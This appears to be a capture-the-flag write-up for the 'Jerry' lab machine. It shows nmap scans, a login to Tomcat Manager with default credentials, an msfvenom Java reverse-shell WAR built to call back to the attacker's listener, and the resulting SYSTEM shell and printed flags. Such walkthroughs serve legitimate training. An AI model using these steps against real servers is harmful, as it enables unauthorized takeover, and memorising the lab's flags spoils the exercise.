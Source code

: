 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Jerry



```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.95 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 19:03 CET
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 122.56 seconds
```





```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.95
	[*] Open ports: 8080

[*] Ports copied to clipboard
```



```bash
❯ nmap -sCV -p8080 10.10.10.95 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 19:07 CET
Nmap scan report for 10.10.10.95
Host is up (0.081s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (97%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   108.22 ms 10.10.16.1
2   108.59 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.82 seconds
```



```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../../.gitbook/assets/4040_vmware_Tz3oiUiWrx.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (7) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



{% embed url="https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown" %}



admin/admin



<figure><img src="../../../.gitbook/assets/imagen (2) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (3) (1) (1).png" alt=""><figcaption></figcaption></figure>



tomcat/s3cret



<figure><img src="../../../.gitbook/assets/imagen (4) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/4046_vmware_KkOShrwBUd.png" alt=""><figcaption></figcaption></figure>



{% embed url="https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00" %}



```bash
❯ msfvenom -p java/shell_reverse_tcp lhost=10.10.16.5 lport=443 -f war -o pwn.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: pwn.war
```



```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```



<figure><img src="../../../.gitbook/assets/imagen (5) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (6) (1) (1).png" alt=""><figcaption></figcaption></figure>



```bash
❯ curl -s X GET 'http://10.10.10.95:8080/pwn'
```



```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)   2,419,822,592 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,822,592 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
